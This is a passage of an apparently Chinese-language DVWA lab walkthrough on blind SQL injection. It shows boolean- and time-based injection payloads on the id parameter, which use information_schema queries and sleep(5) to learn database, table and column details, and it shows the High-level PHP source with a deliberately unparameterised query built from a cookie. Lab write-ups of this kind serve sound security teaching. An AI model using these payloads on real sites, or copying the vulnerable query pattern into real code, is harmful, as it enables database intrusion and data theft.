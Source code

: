 可以看到，Medium级别的代码利用mysql_real_escape_string函数对特殊符号

\x00,\n,\r,\,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。

![image]({path}/64.png)

漏洞利用
虽然前端使用了下拉选择菜单，但我们依然可以通过抓包改参数id，提交恶意构造的查询参数。

之前已经介绍了详细的盲注流程，这里就简要演示几个。

首先是基于布尔的盲注：


```
抓包改参数id为1 and length(database())=4 #，显示存在，说明数据库名的长度为4个字符；

抓包改参数id为1 and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #，显示存在，说明数据中的第一个表名长度为9个字符；

抓包改参数id为1 and (select count(column_name) from information_schema.columns where table_name= 0×7573657273)=8 #，（0×7573657273为users的16进制），显示存在，说明uers表有8个字段。

然后是基于时间的盲注：

抓包改参数id为1 and if(length(database())=4,sleep(5),1) #，明显延迟，说明数据库名的长度为4个字符；

抓包改参数id为1 and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(5),1) #，明显延迟，说明数据中的第一个表名长度为9个字符；

抓包改参数id为1 and if((select count(column_name) from information_schema.columns where table_name=0×7573657273 )=8,sleep(5),1) #，明显延迟，说明uers表有8个字段。
```


### High
服务器端核心代码



```
<?php 

if( isset( $_COOKIE[ 'id' ] ) ) { 
    // Get input 
    $id = $_COOKIE[ 'id' ]; 

    // Check database 
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;"; 
    $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors 

    // Get results 
    $num = @mysql_numrows( $result ); // The '@' character suppresses errors 
    if( $num > 0 ) { 
        // Feedback for end user 
        echo '<pre>User ID exists in the database.</pre>'; 
    } 
    else { 
        // Might sleep a random amount 
        if( rand( 0, 5 ) == 3 ) { 
            sleep( rand( 2, 4 ) ); 
        } 

        // User wasn't found, so the page wasn't! 
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' ); 

        // Feedback for end user 
        echo '<pre>User ID is MISSING from the database.</pre>'; 
```